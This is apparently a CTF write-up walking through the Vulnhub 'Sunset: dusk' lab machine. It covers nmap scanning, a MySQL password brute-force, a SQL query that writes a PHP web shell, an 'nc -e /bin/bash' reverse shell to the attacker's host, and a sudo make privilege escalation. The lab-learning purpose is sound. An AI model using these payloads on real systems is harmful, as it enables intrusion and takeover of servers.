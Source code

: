 # Sunset:dusk ~Vulnhub Walkthrough
Sunset: dusk is another CTF challenge given by vulnhub and the level difficulty is set according to beginners and credit goes to whitecr0wz.
Download link: https://download.vulnhub.com/sunset/dusk.7z



## Scanning

nmap -p- target ip (full port scan)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled.png)

nmap -sV -A 192.168.122.150 (Service version scanning)

```jsx
root@kali:~# nmap -sV -A 192.168.122.150
Starting Nmap 7.80SVN ( https://nmap.org ) at 2020-08-10 13:10 EDT
Nmap scan report for 192.168.122.155
Host is up (0.00094s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.122.155:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b5:ff:69:2a:03:fd:6d:04:ed:2a:06:aa:bf:b2:6a:7c (RSA)
|   256 0b:6f:20:d6:7c:6c:84:be:d8:40:61:69:a2:c6:e8:8a (ECDSA)
|_  256 85:ff:47:d9:92:50:cb:f7:44:6c:b4:f4:5c:e9:1c:ed (ED25519)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: dusk.dusk, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=dusk.dusk
| Subject Alternative Name: DNS:dusk.dusk
| Not valid before: 2019-11-27T21:09:14
|_Not valid after:  2029-11-24T21:09:14
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.18-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: SupportsTransactions, SupportsLoadDataLocal, FoundRows, Support41Auth, Speaks41ProtocolOld, ConnectWithDatabase, Speaks41ProtocolNew, ODBCClient, InteractiveClient, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, SupportsCompression, DontAllowDatabaseTableColumn, LongColumnFlag, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: j!]4,{MN|I8xwk5ct<o9
|_  Auth Plugin Name: mysql_native_password
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.11-1)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 00:0C:29:3D:E7:3F (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host:  dusk.dusk; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.94 ms 192.168.122.155

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.57 seconds
root@kali:~#
```

## Enumeration

Open ip in browser

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%201.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%201.png)

[http://192.168.122.150:8080](http://192.168.122.150:8080) 

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%202.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%202.png)

Trying to login through ssh, ftp and smtp port.

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%203.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%203.png)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%204.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%204.png)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%205.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%205.png)

Using hydra to bruteforce password of mysql 

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%206.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%206.png)

Found password **password**

**mysql -h 192.168.122.150 -u root -p**

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%207.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%207.png)

## Exploitation

Injecting RCE payload 

select "<?php echo system($_GET['cmd']); ?" into outfile "/var/tmp/backdoor.php";

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%208.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%208.png)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%209.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%209.png)

### Reverse shell

[http://192.168.122.150:8080/backdoor.php?cmd=](http://192.168.122.150:8080/backdoor.php?cmd=)nc -e /bin/bash 192.168.122.148 1234

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2010.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2010.png)

Side by side start nc listener on 1234 port

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2011.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2011.png)

***Got shell of www-data

cd /home 

cd /dusk 

ls -al

cat user.txt

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2012.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2012.png)

sudo -l 

user www-data can run /usr/bin/make with privilege of dusk

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2013.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2013.png)

### Privilege escalation (dusk)

COMMAND='/bin/sh' 

sudo -u dusk make -s --eval=$'x:\n\t-'"$COMMAND"

id

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2014.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2014.png)

***Got shell of dusk user
